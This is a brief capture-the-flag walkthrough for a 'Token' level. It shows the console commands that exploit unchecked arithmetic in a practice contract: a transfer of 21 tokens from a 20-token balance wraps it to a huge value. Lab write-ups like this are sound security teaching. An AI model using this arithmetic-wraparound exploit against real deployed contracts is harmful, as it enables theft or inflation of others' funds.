 # Console Execution for Level 6: Token

## Overview
For this level, we exploited an integer overflow vulnerability in the `Token` contract without needing a separate attack contract. All steps were performed directly in the console using the `Token` contract’s `transfer` function. This document details each step taken in the console to successfully complete the level.

## Console Execution Steps

1. **Check Initial Balance**  
   We first verified the initial balance provided in the contract:
   await contract.balanceOf(player).then(console.log); // Expected output: 20 tokens

2. Execute Overflow Attack
   By calling the transfer function with a value greater than the current balance (21 tokens), we triggered an overflow, causing the balance to wrap to a very large positive value:
   await contract.transfer("Yor_MM_Adres", 21);

3. Verify New Balance
   After executing the transfer, we verified the new balance to ensure the exploit was successful:
   await contract.balanceOf(player).then(console.log); // Expected output: Large positive balance

